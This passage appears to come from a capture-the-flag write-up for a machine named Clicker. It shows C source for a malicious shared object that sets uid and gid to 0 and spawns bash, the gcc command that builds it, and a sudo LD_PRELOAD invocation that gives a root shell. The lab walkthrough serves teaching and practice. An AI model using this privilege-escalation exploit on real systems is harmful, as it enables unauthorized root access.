 I'll create a simple C program that unsets the `LD_PRELOAD` variable (to
prevent loops), sets the privileges to root user and group, and runs
`bash`:



    #include <stdio.h>
    #include <sys/types.h>
    #include <stdlib.h>
    #include <unistd.h>

    void _init() {
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/bash");
    }



There's no compilation tools on the host, but since both it and my VM
are Ubuntu-based, compiling locally shouldn't cause issues. I'll
generate a `.so` file:



    oxdf@hacky$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles



I'll copy this file up to Clicker into `/tmp`. Now I can run with
`LD_PRELOAD` pointing at this shared object and it will run `bash`:



    jack@clicker:~$ sudo LD_PRELOAD=/tmp/shell.so /opt/monitor.sh 
    root@clicker:/home/jack# 








